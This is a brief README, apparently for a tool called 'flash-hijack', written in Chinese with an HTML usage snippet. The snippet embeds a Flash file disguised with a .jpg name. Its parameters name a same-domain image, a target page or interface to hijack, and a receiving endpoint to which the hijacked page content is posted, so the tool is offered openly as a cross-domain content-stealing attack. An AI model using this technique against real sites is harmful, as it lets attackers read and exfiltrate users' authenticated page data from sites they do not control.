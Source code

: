 # flash-hijack
flash 劫持轮子

使用：
HTML：

<div> 
<embed src="hijack.jpg?jpg=http://127.0.0.1/1.png&get=http://127.0.0.1/l.php&post=http://127.0.0.1/2.php" width="970" height="107" quality="high" pluginspage="http://www.macromedia.com/go/getflashplayer" type="application/x-shockwave-flash" wmode="transparent"></embed> 
</object> 
</div>

参数说明:
jpg：域下的图片
get：劫持的接口或者页面
post：接收劫持过来的页面
